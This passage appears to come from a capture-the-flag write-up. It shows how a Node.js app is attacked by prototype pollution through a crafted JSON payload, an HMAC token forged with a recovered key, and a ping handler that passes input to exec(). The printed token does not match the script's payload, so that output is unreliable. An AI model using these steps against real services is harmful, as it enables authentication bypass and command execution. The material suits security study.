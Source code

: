 Insufficient validation is performed and therefore the above code has a "blind spot" where values in the request parameter having both **tier ≥ 5** and **canLookup = true**, eventually hit the **ping** endpoint. Therefore we can pass malicious data in the **address** parameter that will not get validated against **validateIP** function. 

So we need to craft a request with the following data:
```
{
	"tier": 10,
	"account": "bm90X3Rocm93aW5nX2F3YXlfbXlfc2hvdA",
	"__proto__": {
		"canLookup": true
	}
}
```

Although trivial, we still need to craft the hmac for this payload first. Since we have already found the hmac key in the steps above, we can use something like this in a `craftToken.js` file:
```javascript
const crypto = require("crypto");

const key = "indiana....let it go";

const payload = {
        "tier": 10,
        "account": "bm90X3Rocm93aW5nX2F3YXlfbXlfc2hvdA",
        "__proto__": {
                "canLookup": true
        }
};

const b64Payload = new Buffer.from(JSON.stringify(payload)).toString("base64");

const hash = crypto.createHmac('sha256', key)
                        .update(b64Payload)
                        .digest('hex');

console.log("apiToken: " + b64Payload + ":" + hash);
```

When invoked with NodeJS (`node craftToken.js`) prints out the encoded payload to use for the apiToken parameter: `eyJ0aWVyIjoxMCwiYWNjb3VudCI6Ik1JU1NJTkcgVkFMVUUifQ==:681116a5b368253770e6af63f2ebebdfc4efd4711e3f416e467c4029c29b7a78`

As the tier is >= 5 and `canLookup` is set to true by exploiting prototype pollution, the following code is then invoked:
```jsx
// ping.js
const Promise = require('bluebird');
const { exec } = require('child_process');
const execAsync = Promise.promisify(exec);

module.exports = async function ping(address) {
        const ping = await execAsync(`ping -c 3 -W 3 ${address}`); <<
        return ping.toString().split("\n")
                .map(x => x.trim())
                .filter(x => x != "")
                .filter(x => x.includes("bytes from"))
                .map(line => {
                        let count = (line.match(/=/g) || []).length;
                        let time = 0;
                        if (count >= 3) {
                                let regExp = /([0-9.]+)[ ]*ms/;
                                let match = regExp.exec(line);
                                time = parseFloat(match[1], 10);
                        }
```